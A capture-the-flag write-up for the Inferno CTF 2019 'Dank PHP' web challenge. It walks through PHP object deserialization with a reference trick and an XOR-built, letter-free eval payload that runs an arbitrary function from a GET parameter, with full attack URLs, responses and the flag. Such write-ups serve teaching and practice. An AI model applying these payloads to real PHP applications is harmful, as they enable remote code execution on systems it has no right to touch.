 # Inferno CTF 2019 – Dank PHP

* **Category:** Web
* **Points:** 375

## Challenge

> I love Dank Memes+PHP
> 
> Link: http://104.197.168.32:17010/
> 
> Author : MrT4ntr4

## Solution

The website will show its own source code.

```php
<?php
include "flag.php";

show_source(__FILE__);

class user {
  var $name;
  var $pass;
  var $secret;
}

if (isset($_GET['id'])) {

  $id = $_GET['id'];

  $usr = unserialize($id);
  if ($usr) {
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
      echo "Congratulation! Here is something for you...  " . $usr->pass;
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
      } else {
        echo "NVM You are not eligible";
      }
    } else {
      echo "Oh no... You can't fool me";
    }

  } else {
    echo "are you trolling?";
  }

} else {
  echo "Go and watch some Youthoob Tutorials Kidosss!!";
}
```

You have to bypass some checks in order to get the flag. The first part of the flag, i.e. `$flag1`, is printed after the first check, the second part of the flag can be obtained executing `echoFlag()` method when the `eval($cap)` instruction is reached.

First of all you have to replicate a serialized input to pass via `id` HTTP GET parameter. This could be done with the following code.

```php
<?php
class user {
  var $name;
  var $pass;
  var $secret;
}

$usr = new user();
$usr->name = "name";
$usr->pass = "pass";
$usr->secret = "secret";

$id = serialize($usr);
echo $id;
```

The result is the following payload.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";s:4:"pass";s:6:"secret";s:6:"secret";}
```

The first check to bypass is the following.

```php
    $usr->secret = $flag1;
    if ($usr->name === "admin" && $usr->pass === $usr->secret) {
```

This can be achieved referencing `$usr->secret` field from the `$usr->pass` field, so when the assign operation with `$flag1` will be performed, both fields will be equals.

In PHP serialization, this can be done with the `R` clause, pointing to the index of the referenced object. The crafted payload is the following.

```
O:4:"user":3:{s:4:"name";s:5:"admin";s:6:"secret";s:6:"secret";s:4:"pass";R:3;}
```

The complete URL is the following.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}
```

The answer will be the following.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
NVM You are not eligible
```

The second check to bypass is the following.

```php
      if (isset($_GET['caption'])) {
        $cap = $_GET['caption'];
        if (strlen($cap) > 45) {
          die("Naaaah, Take rest now");
        }
        if (preg_match("/[A-Za-z0-9]+/", $cap)) {
          die("Don't mess with the best language!!");
        }
        eval($cap);
        // Try to execute echoFlag()
```

This is quite hard, because there are two strong constraints.

Usually, `preg_match` [can be bypassed using arrays](https://bugs.php.net/bug.php?id=69274), but in this case I was not able to use the content of the array into the `eval` instruction.

Googling around, I learned about a technique to bypass WAF using non-alfanumeric input, performing logic operations on non-alfanumeric chars using non-alfanumeric variables.

Considering the check on the length, and the overhead of this kind of payloads, probably the best way to attack the endpoint is to read another HTTP GET parameter, with non-alfanumeric name, e.g. `_`.

I found two interesting websites:
* [Bypass WAF - Php webshell without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/);
* [`preg_match` Code Execution](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution).

In the second website, there is the same scenario of the challenge, so I used it to craft my payload.

Using bitwise XOR operation in PHP, you can craft `_GET` string using non-alfanumeric chars and assign this value to a variable with a non-alfanumeric char.

```php
$_="`{{{"^"?<>/"; // This is: "_GET" string.
```

Then you can specify the execution of the content of a GET parameter with the following code.

```php
${$_}[_]();       // This is $_GET[_]()
```

So the complete payload that will be executed by the `eval` instruction will be the following.

```php
$_="`{{{"^"?<>/";${$_}[_]();
```

Putting everything together, you can craft the final URL to invoke. The last thing to do is to specify the HTTP GET parameter called `_` where the name of the function to call will be specified.

```
http://104.197.168.32:17010/?id=O:4:%22user%22:3:{s:4:%22name%22;s:5:%22admin%22;s:6:%22secret%22;s:6:%22secret%22;s:4:%22pass%22;R:3;}&caption=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_]();&_=echoFlag
```

The web page will give the following answer.

```
Congratulation! Here is something for you...
infernoCTF{pHp_1s_
a_h34dache}
```

So the flag is the following.

```
infernoCTF{pHp_1s_a_h34dache}
```